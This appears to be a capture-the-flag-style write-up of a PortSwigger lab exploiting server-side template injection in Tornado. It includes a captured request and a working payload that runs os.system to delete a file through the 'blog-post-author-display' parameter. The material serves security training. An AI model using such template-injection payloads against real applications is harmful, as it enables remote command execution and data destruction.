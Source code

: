 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/32e8e5a6-92b0-433b-b5a4-ea39af922b73)

## Solution :

In the My-Account page, we have this **Preferred name** functionality.

On selecting *First name* , a POST request is sent as follows.

```http
POST /my-account/change-blog-post-author-display HTTP/2
Host: 0a0600c203153f8e80d2128500f7005e.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/117.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 78
Origin: https://0a0600c203153f8e80d2128500f7005e.web-security-academy.net
Referer: https://0a0600c203153f8e80d2128500f7005e.web-security-academy.net/my-account?id=wiener
Cookie: session=L6vbGPm7HzT2Pdds1yaNqsgg31Tr7Auk
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

blog-post-author-display=user.first_name&csrf=XlGz50yl1jqjs2iKGNHYvMTOsHDYCXlK
```

The `blog-post-author-display=user.first_name` seems interesting, it seems like it takes our first name and passes it as data to the backend code then processes it and sends it back. [Code Context].

So when we change the value to `Nickname` the comments which we made in a post will be posted with our nickname.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/fdfe60b5-6369-416a-bb3e-9a36748b51f6)

As seen from the above image, we see that the nickname is **h0td0g**.

Similarly when we change our preferred name to `Name`, then the name above the comment made by us will be **wiener**.

### Injecting payload :

In the above request, we need to first close the expression with **}}** and then we can inject our malicious payload for Tornado template engine.

Payload used to delete morale.txt -

```python
}}{{7*7}}
```

> Since Tornado is a python based templating engine, we can use `{{..}}` to test / run commands.

Now we can see that the username has **49** in it which is a result of our payload {{7*7}} which confirms the SSTI vulnerability.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/41897dfe-2942-48b3-851d-f4ca95c32856)

Now to delete the file, we can use this payload.

```python
}}{% import os %}{{ os.system("rm /home/carlos/morale.txt") }}
```

Now once we send the payload in the `blog-post-author-display=user.first_name` parameter ie ( `blog-post-author-display=user.name}}{% import os %}{{ os.system('rm /home/carlos/morale.txt') }}` ), the payload gets executed & the file is deleted .Thus we have solved the lab.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/4ace362d-8134-4ff3-aaf9-3c6641a7ea50)

